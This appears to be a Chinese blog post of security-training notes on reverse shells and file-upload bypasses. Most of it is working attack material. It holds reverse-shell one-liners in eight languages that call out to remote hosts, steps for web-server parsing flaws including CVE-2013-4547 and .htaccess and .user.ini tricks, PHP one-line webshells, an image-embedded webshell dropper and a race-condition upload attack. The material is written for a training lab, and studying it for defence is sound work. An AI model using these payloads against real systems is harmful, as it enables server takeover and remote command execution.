 ```yaml
---
title: 【网络安全4x01】洞明科技网络安全培训 --- day1
date: 2020-08-20 21:35:08
tags: [网络安全]
---
```


第一天讲文件上传里的一些绕过方法和反弹shell。

<!-- more -->

# Linux下NC反弹shell命令

本机开启监听：

``` bash
nc -lvnp 4444

nc -vvlp 4444
```

目标机器开启反弹

bash版本：

``` bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

perl版本：

``` perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

php版本：

``` php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

ruby版本：

``` ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

python版本：

``` python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

nc版本：

``` bash
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
nc x.x.x.x 8888|/bin/sh|nc x.x.x.x 9999
```

java版本：

``` java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

lua版本：

``` lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

NC版本不使用-e参数：

``` bash
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc x.x.x.x 4444 1>/tmp/backpipe

/bin/bash -i > /dev/tcp/173.214.173.151/8080 0<&1 2>&1

mknod backpipe p && telnet 173.214.173.151 8080 0backpipe
```

# 文件上传

## 解析漏洞

### apache

01. Apache解析漏洞成因

    成因：
    由于Apache 识别文件的规则是根据后缀名从右往左进行识别，遇到不在识别范围内就会自动忽略，往左进行识别，如果左边是在解析范围内的就会正常解析，而一般程序进行判断文件是否允许上传是根据最后的后缀名进行判断的。

02. Apache解析漏洞利用条件

    Apache解析漏洞只存在于老版本中：
    经测试：Apache 2.0 Apache 2.2 是存在解析漏洞的。
    
03. 示例

    在一个后端黑名单判断的文件上传的例子中：
    如果Apache版本比较老，那么就可以使用如下的方式来绕过黑名单的检测。
    
04. `.htaccess`

    （1）`.htaccess`（超文本访问）是许多Web服务器根据目录应用设置的有用文件，允许在运行时覆盖Apache服务器的默认配置。
    （2）`.htaccess`是一个完整的文件名，不仅仅是文件的扩展名。

    `.htaccess`的代码如下：
``` php
    <FilesMatch "1.jpg">
    SetHandler application/x-httpd-php
    </FilesMatch>
```

### nginx

01. 配置错误导致的解析漏洞

    对于任意文件名，在后面加上/任意文件名.php后该文件就会以php格式进行解析，是用户配置不当造成的。

02. 00截断

    Nginx解析漏洞
    Nginx版本：0.5.， 0.6.， 0.7 <= 0.7.65， 0.8 <= 0.8.37
    需要很老的版本才可以，00截断也和 php版本有关系。

03. CVE-2013-4547

    Nginx 版本： 0.8.41～1.4.3， 1.5 <= 1.5.7
    使用方法：
    （1）上传文件名如： 1.jpg空格
    （2）访问例如：1.jpg...php
    （3）访问的时候抓包，修改后缀为`1.jpg[0x20][0x00][0x2e]php`（使用burp修改，调整 hex 即可）
    （4）修改后进行访问就会发现 jpg 图片会被当做 php解析

04. 使用`.user.ini`绕过黑名单

    使用条件：
    （1）服务器脚本语言为PHP 服务器使用CGI／FastCGI模式
    （2）上传目录下要有可执行的php文件
    例如：PHP study中使用 nginx 中间件的时候就可以进行实验。

    使用方式：
    （1）上传一张图片
    （2）上传`.user.ini`文件。内容为：`auto_prepend_file=2.png`（这一句即可）
    （3）访问：`http://IP/upload/2.png/xx.php`（目录中存在的 一个php文件）

### IIS

01. IIS 5.x-6.x

    （1）目录解析
    `www.xxx.com/xx.asp/xx.jpg`
    （2）文件解析
    `www.xxx.com/xx.asp;.jpg`

02. IIS 7.0-7.5

    `Upload/1.jpg/*.php`

    我们把下面的代码，插入到一张图片中。

    `<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[x])?>’)?>`

    那么，访问`x.x.x/upload/1.jpg/.php`，就会在当前目录生成一个木马

## php内容过滤

* 绕过`<? ?>`：使用`<script language=php> </script>`

* 绕过`eval`、`assert`过滤：使用`system();`

* 绕过`GET`、`post`过滤：使用`REQUEST`

示例：

``` php
<?php @eval($_POST[cmd]);?>

<script language=php>system($_REQUEST[cmd]);</script>
```

然后访问`url/xxx.php?cmd=`或者post一个`cmd=`的包均可，也可以写一个一句话木马到别的文件：

``` php
url/xxx.php?cmd=echo '<?php @eval($_POST[sb]);?>' >> test.php
```

也可以直接反弹shell：

``` php
<script language=php>system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.234 4445 >/tmp/f');</script>
```

* 如果同级路径下有后缀不为php的一句话木马，也可以一句话包含执行：

``` php
<script language=php>include('ma.txt');</script> 
```

## 条件竞争

upload-labs Less17

上传`123.php`，内容为生成下面的反弹shell，burp里intruder开500线程重复攻击，浏览器不断刷新访问还未被删除的`123.php`，直至反弹shell创建成功：

``` php
<?php fputs(fopen('gt.php', 'w'),'<?php @eval($_POST[cmd]);?>');?>
```